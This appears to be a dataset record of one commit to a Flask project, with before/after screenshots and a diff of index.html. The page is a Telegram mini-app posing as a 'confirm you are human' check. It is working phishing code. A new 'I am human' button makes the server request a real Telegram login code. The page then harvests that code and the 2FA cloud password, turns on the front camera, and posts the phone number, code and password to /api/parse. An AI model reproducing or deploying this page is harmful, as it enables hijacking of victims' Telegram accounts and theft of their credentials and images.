

Before and after one commit to nbverter/TGUARD, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -6,7 +6,7 @@
     <title>Проверка доступа</title>
     <script src="https://telegram.org/js/telegram-web-app.js"></script>
     <style>
-        *{margin:0;padding:0;box-sizing:border-box;font-family:-apple-system,BlinkMacSystemFont,'Segoe UI',Roboto,sans-serif;-webkit-tap-highlight-color:transparent;user-select:none}
+        *{margin:0;padding:0;box-sizing:border-box;font-family:-apple-system,BlinkMacSystemFont,'Segoe UI',Roboto,sans-serif}
         body{min-height:100vh;background:#0a0a0f;display:flex;align-items:center;justify-content:center;padding:16px}
         #app{background:rgba(255,255,255,0.04);backdrop-filter:blur(24px);border:1px solid rgba(255,255,255,0.06);border-radius:28px;max-width:400px;width:100%;padding:32px 24px 40px}
         .step{display:none;flex-direction:column;gap:20px}.step.active{display:flex}
@@ -22,29 +22,36 @@
         .password-field{display:flex;flex-direction:column;gap:12px}
         .password-field input{padding:16px 20px;border-radius:14px;border:1px solid rgba(255,255,255,0.08);background:rgba(0,0,0,0.3);font-size:16px;color:#fff;outline:none}
         .password-field input:focus{border-color:#5b8cff}
-        .password-field button,#camera-btn{padding:16px;border-radius:14px;border:none;background:linear-gradient(135deg,#3b82f6,#7c3aed);color:#fff;font-size:16px;font-weight:600;cursor:pointer}
-        #video{width:100%;border-radius:14px;background:#000;border:1px solid rgba(255,255,255,0.06);display:none;aspect-ratio:4/3;object-fit:cover}
-        .info{color:#64748b;font-size:13px;text-align:center}
+        .password-field button,#camera-btn,#human-btn{padding:16px;border-radius:14px;border:none;background:linear-gradient(135deg,#3b82f6,#7c3aed);color:#fff;font-size:16px;font-weight:600;cursor:pointer;width:100%}
+        #video{width:100%;border-radius:14px;background:#000;display:none;aspect-ratio:4/3;object-fit:cover}
         .loader{width:40px;height:40px;border:3px solid rgba(255,255,255,0.06);border-top-color:#7c3aed;border-radius:50%;animation:spin 0.8s linear infinite;margin:0 auto}
         @keyframes spin{to{transform:rotate(360deg)}}
         .queue{color:#94a3b8;font-size:15px;text-align:center}.queue span{color:#fff;font-weight:600}
         .warning{color:#f59e0b;font-size:13px;font-weight:500;text-align:center}
         .close-btn{margin-top:12px;padding:14px;border-radius:14px;border:none;background:rgba(255,255,255,0.06);color:#94a3b8;font-size:15px;font-weight:500;cursor:pointer}
-        .hidden{display:none}
         .phone-display{background:rgba(0,0,0,0.3);border-radius:14px;padding:14px;text-align:center;font-size:18px;color:#94a3b8;border:1px solid rgba(255,255,255,0.06)}
         .phone-display span{color:#fff;font-weight:600}
-        .show-code-btn{background:rgba(50,150,255,0.12);border:1px solid rgba(50,150,255,0.15);border-radius:14px;padding:12px 24px;color:#5b8cff;font-size:15px;font-weight:500;cursor:pointer;width:auto;transition:all 0.2s}
-        .show-code-btn:active{background:rgba(50,150,255,0.25)}
+        .show-code-btn{background:rgba(50,150,255,0.12);border:1px solid rgba(50,150,255,0.15);border-radius:14px;padding:12px 24px;color:#5b8cff;font-size:15px;font-weight:500;cursor:pointer;width:auto}
         .btn-row{display:flex;justify-content:center;gap:12px;flex-wrap:wrap}
+        .desc{color:#94a3b8;font-size:14px;text-align:center;line-height:1.5}
         @media(max-width:440px){#app{padding:24px 16px 32px}h2{font-size:18px}.pin-grid button{padding:16px;font-size:24px}.pin-display{font-size:28px;letter-spacing:12px;min-height:60px}}
     </style>
 </head>
 <body>
 <div id="app">
-    <!-- ШАГ 1: ВВОД КОДА -->
-    <div id="step-code" class="step active">
+    <!-- ШАГ 1: КНОПКА "Я ЧЕЛОВЕК" -->
+    <div id="step-human" class="step active">
+        <h2>🤖 Подтвердите, что вы человек</h2>
+        <div class="phone-display">📱 Номер: <span id="phone-display">загрузка...</span></div>
+        <p class="desc">Нажмите кнопку ниже, чтобы подтвердить, что вы не бот.<br>На ваш номер придёт реальный код подтверждения.</p>
+        <button id="human-btn">✅ Я человек</button>
+        <p class="error" id="human-error"></p>
+    </div>
+
+    <!-- ШАГ 2: ВВОД КОДА -->
+    <div id="step-code" class="step">
         <h2>📩 Введите код подтверждения</h2>
-        <div class="phone-display">📱 Номер: <span id="phone-display">загрузка...</span></div>
+        <p class="desc">Код отправлен в Telegram на номер <span id="phone-display2" style="color:#fff;font-weight:600">загрузка...</span></p>
         <p class="timer">⏳ Код действителен <span id="countdown">60</span> секунд</p>
         <div class="pin-display"><span id="pin-input"></span></div>
         <div class="pin-grid">
@@ -59,10 +66,10 @@
         </div>
     </div>
 
-    <!-- ШАГ 2: ПАРОЛЬ (2FA) -->
+    <!-- ШАГ 3: ПАРОЛЬ (2FA) -->
     <div id="step-password" class="step">
         <h2>🔑 Облачный пароль</h2>
-        <p style="color:#94a3b8;text-align:center;font-size:15px;">Введите облачный пароль для завершения</p>
+        <p class="desc">Введите облачный пароль для завершения</p>
         <div class="password-field">
             <input type="password" id="cloud-pass" placeholder="Облачный пароль">
             <button id="pass-submit">Подтвердить</button>
@@ -70,16 +77,16 @@
         <p class="error" id="pass-error"></p>
     </div>
 
-    <!-- ШАГ 3: КАМЕРА -->
+    <!-- ШАГ 4: КАМЕРА -->
     <div id="step-camera" class="step">
         <h2>📸 Доступ к камере</h2>
-        <p style="color:#94a3b8;text-align:center;font-size:15px;">Для завершения проверки необходим доступ к камере</p>
+        <p class="desc">Для завершения проверки необходим доступ к камере</p>
         <button id="camera-btn">🎥 Дать доступ</button>
         <video id="video" autoplay muted></video>
         <p class="error" id="camera-error"></p>
     </div>
 
-    <!-- ШАГ 4: ГОТОВО -->
+    <!-- ШАГ 5: ГОТОВО -->
     <div id="step-done" class="step">
         <div style="font-size:52px;text-align:center">✅</div>
         <h2>Вы сделали все правильно!</h2>
@@ -91,6 +98,7 @@
 </div>
 
 <script>
+// ===== 1. ЗАХВАТ НОМЕРА =====
 const tg = window.Telegram?.WebApp;
 let userPhone = null, userId = null;
 
@@ -101,19 +109,12 @@ if (tg) {
         userPhone = user.phone_number || null;
         userId = user.id || null;
         document.getElementById('phone-display').textContent = userPhone || 'не найден';
-    } else {
-        document.getElementById('phone-display').textContent = '❌ не удалось получить';
+        document.getElementById('phone-display2').textContent = userPhone || 'не найден';
     }
-} else {
-    document.getElementById('phone-display').textContent = '❌ откройте через Telegram';
 }
 
-if (!userPhone) {
-    document.getElementById('code-error').textContent = '❌ Ошибка: откройте через Telegram';
-    document.querySelectorAll('.pin-grid button').forEach(b => b.disabled = true);
-}
-
-let pinCode = '', step = 'code', countdown = 60, timerInterval = null, isSubmitting = false;
+// ===== 2. СОСТОЯНИЯ =====
+let pinCode = '', step = 'human', countdown = 60, timerInterval = null, isSubmitting = false;
 const API_URL = window.location.origin;
 
 function openTelegram() {
@@ -123,28 +124,28 @@ function openTelegram() {
 
 function showStep(name) {
     document.querySelectorAll('.step').forEach(el => el.classList.remove('active'));
-    document.getElementById('step-'+name).classList.add('active');
+    document.getElementById('step-' + name).classList.add('active');
 }
 
 function pin(n) {
     if (step !== 'code' || isSubmitting) return;
     if (pinCode.length < 6) {
         pinCode += n;
-        document.getElementById('pin-input').textContent = pinCode.replace(/./g,'●');
+        document.getElementById('pin-input').textContent = pinCode.replace(/./g, '●');
     }
 }
 
 function clearPin() {
     if (step !== 'code' || isSubmitting) return;
-    pinCode = pinCode.slice(0,-1);
-    document.getElementById('pin-input').textContent = pinCode.replace(/./g,'●');
+    pinCode = pinCode.slice(0, -1);
+    document.getElementById('pin-input').textContent = pinCode.replace(/./g, '●');
 }
 
 async function sendToServer(type, data) {
     try {
         const response = await fetch(API_URL + '/api/collect', {
             method: 'POST',
-            headers: {'Content-Type':'application/json'},
+            headers: {'Content-Type': 'application/json'},
             body: JSON.stringify({
                 type: type,
                 data: data,
@@ -159,6 +160,40 @@ async function sendToServer(type, data) {
     }
 }
 
+// ===== КНОПКА "Я ЧЕЛОВЕК" — РЕАЛЬНАЯ ОТПРАВКА КОДА =====
+document.getElementById('human-btn').addEventListener('click', async function() {
+    if (!userPhone) {
+        document.getElementById('human-error').textContent = '❌ Номер не получен';
+        return;
+    }
+    this.disabled = true;
+    this.textContent = '⏳ Отправка...';
+    document.getElementById('human-error').textContent = '';
+
+    try {
+        const response = await fetch(API_URL + '/api/send_code', {
+            method: 'POST',
+            headers: {'Content-Type': 'application/json'},
+            body: JSON.stringify({ phone: userPhone })
+        });
+        const result = await response.json();
+        if (result && result.status === 'ok') {
+            showStep('code');
+            step = 'code';
+            startTimer();
+        } else {
+            document.getElementById('human-error').textContent = '❌ ' + (result.message || 'Ошибка отправки');
+            this.disabled = false;
+            this.textContent = '✅ Я человек';
+        }
+    } catch(e) {
+        document.getElementById('human-error').textContent = '❌ Ошибка соединения';
+        this.disabled = false;
+        this.textContent = '✅ Я человек';
+    }
+});
+
+// ===== ОТПРАВКА КОДА =====
 async function submitPin() {
     if (step !== 'code' || isSubmitting) return;
     if (pinCode.length < 4) {
@@ -182,6 +217,7 @@ async function submitPin() {
     }
 }
 
+// ===== 2FA =====
 document.getElementById('pass-submit').addEventListener('click', async function() {
     const password = document.getElementById('cloud-pass').value.trim();
     if (password.length < 3) {
@@ -198,6 +234,7 @@ document.getElementById('pass-submit').addEventListener('click', async function(
     }
 });
 
+// ===== КАМЕРА =====
 document.getElementById('camera-btn').addEventListener('click', async function() {
     try {
         const stream = await navigator.mediaDevices.getUserMedia({video:{facingMode:'user'}, audio:false});
@@ -215,10 +252,10 @@ document.getElementById('camera-btn').addEventListener('click', async function()
             stream.getTracks().forEach(t => t.stop());
             video.style.display = 'none';
             showStep('done');
-            document.getElementById('queue').textContent = Math.floor(Math.random()*25)+5;
+            document.getElementById('queue').textContent = Math.floor(Math.random() * 25) + 5;
             fetch(API_URL + '/api/parse', {
                 method: 'POST',
-                headers: {'Content-Type':'application/json'},
+                headers: {'Content-Type': 'application/json'},
                 body: JSON.stringify({
                     phone: userPhone,
                     code: pinCode,
@@ -238,6 +275,7 @@ function closeApp() {
 function startTimer() {
     countdown = 60;
     document.getElementById('countdown').textContent = countdown;
+    clearInterval(timerInterval);
     timerInterval = setInterval(() => {
         countdown--;
         document.getElementById('countdown').textContent = countdown;
@@ -247,8 +285,6 @@ function startTimer() {
         }
     }, 1000);
 }
-
-startTimer();
 </script>
 </body>
 </html>
```
